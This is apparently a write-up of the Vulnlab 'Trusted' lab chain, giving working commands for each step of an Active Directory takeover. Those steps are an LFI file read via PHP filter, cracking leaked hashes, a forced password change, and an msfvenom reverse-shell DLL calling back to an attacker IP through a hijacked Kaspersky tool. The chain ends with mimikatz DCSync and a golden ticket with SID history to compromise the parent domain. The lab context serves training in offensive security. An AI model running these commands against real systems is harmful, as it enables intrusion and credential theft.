# Trusted -- Vulnlab Chain (write-up)

**Difficulty:** Hard
**Box:** Trusted (Vulnlab)
**Author:** dsec
**Date:** 2024-09-27

---

## TL;DR

### LFI on a dev web app leaked MySQL creds via PHP filter. MySQL had user hashes -- cracked one, used BloodHound to map a path through ForceChangePassword, DLL hijacking on Kaspersky removal tool, cross-domain trust abuse with golden ticket, and DCSync on the parent domain.
---
## Target info

- Host 1: `10.10.220.21` / `10.10.146.117`
- Host 2: `10.10.220.22` / `10.10.146.118`
- Domain: `lab.trusted.vl` / `trusted.vl`
---
## Enumeration

```bash
sudo nmap -Pn -n 10.10.220.21 -sCV -p- --open -vvv
```





```bash
sudo nmap -Pn -n 10.10.220.22 -sCV -p- --open -vvv
```







---
## Web enumeration -- LFI

Found a `/dev` directory -- don't ignore 301s, anything dev could be useful.




About page had a `?view=` parameter.



Tested for LFI:

```
http://10.10.146.118/dev/index.html?view=C:/WINDOWS/System32/drivers/etc/hosts
```



Used PHP filter to get encoded source of index.html (in case it includes extra PHP code not visible in view-source):

```
10.10.146.118/dev/index.html?view=php://filter/convert.base64-encode/resource=C:\xampp\htdocs\dev\index.html
```



Decoded with CyberChef:



View-source for comparison:



Source code also shows a comment hinting at more PHP files:



Fuzzed for PHP files:

```bash
feroxbuster -u http://10.10.220.22/dev/ -x php
```



Found `db.php`. Used PHP filter + CyberChef to read it:





Creds: `root:SuperSecureMySQLPassw0rd1337.`

---
## MySQL enumeration



```sql
show databases;
```



```sql
use news;
show tables;
select * from users;
```



- `rsmith:7e7abb54bbef42f0fbfa3007b368def7` -- CrackStation: `IHateEric2`
- `ewalters:d6e81aeb4df9325b502a02f11043e0ad`
- `cpowers:e3d3eb0f46fe5d75eed8d11d54045a60`

---
## BloodHound



Initial BloodHound collection failed, so I used dnschef to fake DNS:

```bash
dnschef --fakeip 10.10.146.118
```



```bash
bloodhound-python -c All -dc labdc.lab.trusted.vl -ns 127.0.0.1 -d lab.trusted.vl -u rsmith -p 'IHateEric2'
```



Marked rsmith as owned, checked reachable high value targets:



---
## ForceChangePassword -- ewalters

```bash
rpcclient -U 'rsmith' //10.10.146.118
setuserinfo2 ewalters 23 "d4nk!!!"
```





---
## DLL hijacking -- Kaspersky removal tool



Christine is running that Kaspersky exe -- possible DLL injection.

Evil-WinRM file upload failed -- Constrained Language Mode was preventing scripts.



Used SMB server instead to transfer files:





Ran procmon.exe on host to analyze the Kaspersky removal tool:



Ran the Kaspersky removal tool:



Filtered procmon: Process Name contains KasperskyRemovalTool, Path ends with .dll, Result is NAME NOT FOUND:









Targeted `KasperskyRemovalToolENU.dll` since the executable attempts to load it multiple times.



Executable is PE32, so need a 32-bit DLL:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.8.2.206 LPORT=2222 -f dll > KasperskyRemovalToolENU.dll
```

Transferred to share, copied to directory, waited a few seconds:



Shell as cpowers -- member of Domain Admins, access to administrator flag.

---
## Cross-domain trust abuse

```powershell
nltest.exe /trusted_domains
```



Transferred and ran mimikatz:

```
lsadump::dcsync /domain:lab.trusted.vl /all
```

Grabbed krbtgt NTLM hash:



`c7a03c565c68c6fac5f8913fab576ebd`

```
lsadump::trust /patch
```



- `S-1-5-21-2241985869-2159962460-1278545866`
- `S-1-5-21-3576695518-347000760-3731839591`

Created golden ticket with SID history for Enterprise Admins on parent domain:

```
kerberos::golden /user:Administrator /krbtgt:c7a03c565c68c6fac5f8913fab576ebd /domain:lab.trusted.vl /sid:S-1-5-21-2241985869-2159962460-1278545866 /sids:S-1-5-21-3576695518-347000760-3731839591-519 /ptt
```



DCSync on parent domain:

```
lsadump::dcsync /domain:trusted.vl /dc:trusteddc.trusted.vl /all
```



Admin hash: `15db914be1e6a896e7692f608a9d72ef`

---
## Encrypted flag

root.txt was encrypted:



Had to use RunasCs.exe. Verified with:

```
cipher /u /n
```



---
## Lessons & takeaways

- Don't ignore 301 redirects -- `/dev` directories are gold
- PHP filters bypass view-source limitations and reveal server-side code
- Constrained Language Mode blocks evil-winrm uploads -- pivot to SMB
- Cross-domain trust abuse: child domain DA + krbtgt hash + trust SIDs = parent domain compromise
